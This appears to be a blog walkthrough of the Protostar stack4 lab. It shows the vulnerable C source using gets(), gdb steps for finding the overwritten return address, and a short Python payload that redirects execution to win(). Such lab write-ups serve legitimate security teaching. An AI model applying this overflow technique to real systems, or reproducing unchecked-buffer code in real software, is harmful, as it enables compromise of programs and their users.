 ```yaml
---
title: "Protostar stack4 walkthrough"
date: 2020-05-21
tags: [buffer overflow, protostar, stack4, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack4](https://exploit-exercises.lains.space/protostar/stack4/)

#### About
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

A variety of introductory papers into buffer overflows may help.
gdb lets you do “run < input”
EIP is not directly after the end of buffer, compiler padding can also increase the size.

#### Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### Procedure:

after main is executed, stack contains the address which called main. At the last statement of main (ret) this address is popped off stack and stack frame goes back to previous state and ESP points to the return pointer. 

We can change the return pointer to point to win() function, this executing it after ret

##### Vulnerability:

`gets()` is vulnerable function.


##### Disassembly:

Lets start by disassembling both main and win functions

```
gdb ./stack4
(gdb) set disassembly-flavor intel
(gdb) disassemble main
(gdb) disassemble win
```


![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack4/disassemble.png)

Lets start by running ./stack4 with a large input (AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ) since we dont know where the return pointer is, lets create a breakpoint at ret `break *0x0804841e` and run

![ret-1]({{site.url}}{{site.baseurl}}/images/protostar/stack4/ret-1.png)

We can see that $esp (0xbffff75c) is loaded with 0x56565656 and the next step after ret tried to execute 0x56565656 and failed.

So, if we can overwrite 0xbffff75c with the address of win(), we are done

address of win can be found using objdump or in gdb
```
(gdb) x win
0x80483f4 <win>:        0x83e58955
```

Lets modify our python program to add this address to string after 0x55 (U)
```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"
padding += "\xf4\x83\x04\x08" #address 0x80483f4
print padding
```
![done]({{site.url}}{{site.baseurl}}/images/protostar/stack4/done.png)

Now we can see that $esp now has 0x080483f4 and win() is executed



